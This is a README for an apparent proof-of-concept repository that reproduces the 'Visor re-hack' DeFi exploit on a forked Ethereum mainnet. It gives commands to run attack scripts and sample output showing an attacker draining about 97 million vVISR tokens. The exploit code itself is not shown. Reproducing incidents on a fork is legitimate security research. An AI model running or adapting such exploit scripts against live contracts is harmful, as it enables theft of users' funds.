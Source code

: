 # Visor re-hack PoC

## How to run

Install nodejs/yarn first

Set up the `forking url` (in `hardhat.config.js`)

e.g. https://speedy-nodes-nyc.moralis.io/xxxxxxxxxxx/eth/mainnet/archive (
You need to apply for speedy-nodes from moralis.io)

Then run
```bash
yarn install
yarn hardhat run scripts/attack.js
```
You will see similar output later
```
Exploit contract deployed to: 0x720472c8ce72c2A2D711333e064ABD3E6BbEAdd3
Exploiting... transcation: 0xacbb306938a1746da161700ea9a76ffd0f0a5c749dd543f8572aef34b2b94ab7
exploit complete
Attacker vVISR balance:97624975.48181573
```
This means the attack is complete
> The block height of the fork is 13849006

If you want to test another vulnerability, run
```bash
yarn hardhat run scripts/attack2.js
```
## Link

* https://twitter.com/VisorFinance/status/1473306777131405314
* https://www.tofreedom.me/visorfinance-re-hack
